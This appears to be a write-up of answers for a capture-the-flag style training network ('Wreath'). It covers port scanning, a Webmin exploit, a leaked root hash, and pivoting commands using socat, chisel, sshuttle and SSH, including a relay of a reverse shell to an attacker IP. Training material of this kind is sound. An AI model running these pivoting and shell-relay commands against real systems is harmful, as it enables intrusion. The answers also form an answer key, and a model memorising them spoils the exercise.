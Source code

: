 ### Enumeration
#### How many of the first 15000 ports are open on the target?  
  4  
#### What OS does Nmap think is running?
centos  

#### Open the IP in your browser -- what site does the server try to redirect you to?
https://thomaswreath.thm/

#### Read through the text on the page. What is Thomas' mobile phone number?
+447821548812 

#### Look back at your service scan results: what server version does Nmap detect as running here?
MiniServ 1.890 (Webmin httpd)

#### What is the CVE number for this exploit?
CVE-2019-15107

### Exploitation

#### Run the exploit and obtain a pseudoshell on the target!
#### Which user was the server running as?
root

#### What is the root user's password hash?
i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1

#### What is the full path to this file?
/root/.ssh/id_rsa

####  Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?
tunneling

#### Research: Not covered in this Network, but good to know about. Which Metasploit Framework Meterpreter command can be used to create a port forward?
portfwd

#### What is the absolute path to the file containing DNS entries on Linux?
/etc/resolv.conf

#### What is the absolute path to the hosts file on Windows?
C:\Windows\System32\drivers\etc\hosts

#### How could you see which IP addresses are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash?
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done


### Proxychains and FoxyProxy
####  What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242?
socks4 127.0.0.1 4242  
#### What command would you use to telnet through a proxy to 172.16.0.100:23?
proxychains telnet 172.16.0.100 23
#### You have discovered a webapp running on a target inside an isolated network. Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)?
FP

#### If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.
ssh -L 8000:127.0.0.1:80 user@172.16.0.50


### plink.exe
#### What tool can be used to convert OpenSSH keys into PuTTY style keys?
 puttygen

### Socat
####  Which socat option allows you to reuse the same listening port for more than one connection?
reuseaddr

### If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory? Use TCP port 8000 for the server listener, and do not background the process.
  ./socat tcp-l:8000 tcp:172.16.0.200:443

#### What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
./socat tcp-l:2222, fork,reuseaddr tcp:172.16.0.100:22 &

### Chisel

#### Use port 4242 for the listener and do not background the process.
./chisel server -p 4242 --reverse

#### What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
./chisel client 172.16.0.200:4242 socks

#### How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
./chisel client 172.16.0.100:3306 R:33060:172.16.0.200 &

#### If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80

### Sshuttle
#### How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16
sshuttle -r pwned@172.16.20.7 172.16.0.0/16

#### What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?
--ssh-cmd "ssh -i priv_key"

#### You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error. What switch (and argument) could you use to fix this error?
-x 172.16.0.100



#### Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?  
2

#### In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)  
100, 150

#### Scan the hosts -- which one does not return a status of "filtered" for every port (submit the last octet only)?     
150

#### Let's assume that the other host is inaccessible from our current position in the network. Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?  
80,3389,5985  

#### Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?
  http

### Pivoting
#### What is the name of the program running the service?  
gitstack

#### Head to the login screen of this application. This can be done by adding the answer to the previous question on at the end of the url, e.g. if using sshuttle: http://IP/ANSWER  Do these default credentials work (Aye/Nay)?    
Nay

#### There is one Python RCE exploit for version 2.3.10 of the service. What is the EDB ID number of this exploit?  
43777
